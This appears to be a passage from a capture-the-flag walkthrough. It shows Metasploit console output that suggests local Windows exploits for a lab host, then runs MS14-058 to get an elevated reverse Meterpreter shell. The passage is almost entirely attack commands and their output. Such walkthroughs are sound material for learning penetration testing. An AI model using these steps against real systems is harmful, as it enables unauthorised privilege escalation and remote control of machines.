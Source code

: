     Matching Modules
    ================

       Name                                      Disclosure Date  Rank    Check  Description
       ----                                      ---------------  ----    -----  -----------
       post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


    msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
    msf5 post(multi/recon/local_exploit_suggester) > set session 1
    session => 1
    msf5 post(multi/recon/local_exploit_suggester) > run

    [*] 10.10.10.15 - Collecting local exploits for x86/windows...
    [*] 10.10.10.15 - 29 exploit checks are being tried...
    [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
    [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
    [+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
    [+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
    [*] Post module execution completed



There's a lot of stuff to go for.

### MS14-058

I'll pick one (somewhat at random, though I like this one as it says the
target appears to be vulnerable):



    msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
    session => 3                                 
    msf5 exploit(windows/local/ms14_058_track_popup_menu) > run

    [*] Started reverse TCP handler on 10.10.14.14:4444
    [*] Launching notepad to host the exploit...
    [+] Process 2304 launched.
    [*] Reflectively injecting the exploit DLL into 2304...
    [*] Injecting exploit into 2304...
    [*] Exploit injected. Injecting payload into 2304...
    [*] Payload injected. Executing exploit...        
    [*] Sending stage (179779 bytes) to 10.10.10.15
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Meterpreter session 4 opened (10.10.14.14:4444 -> 10.10.10.15:1044) at 2019-03-06 17:20:47 -0500
       